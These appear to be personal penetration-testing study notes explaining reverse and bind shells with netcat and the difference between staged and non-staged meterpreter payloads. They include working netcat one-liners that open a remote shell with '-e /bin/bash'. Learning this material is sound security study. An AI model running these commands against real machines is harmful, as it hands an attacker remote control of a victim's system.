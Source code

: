 reverse shell
	victim machine connects to us 
	(Netcat)
		nc -nlvp 4444 (listener)
		nc (IP) 4444 -e /bin/bash (connecting)
Bind shell
	connecting to the victim machine opening up a port to access connect to 
	us (Connecting) nc (IP) (Port)
	victim (Listenting) nc -lvp (port) -e /bin/bash
	These are most useful when we have to connect our private IP to an public (External Assessment) we would have to Nat the reverse traffic through our firewall/public IP
	easier to open a port on an victim and go that way

Staged vs non Staged payloads
	Payloads
		what we are sending the machine (the exploit) (or to get a shell)
	non -staged
		sends exploit shellcode all at once
		(larger in size and wont always work)
		ex windows/meterpreter_reverse_tcp (difference is a / )
	staged 
		Sends Payload in stages
		less stable
		ex  - windows/meterpreter/reverse_tcp (difference is /)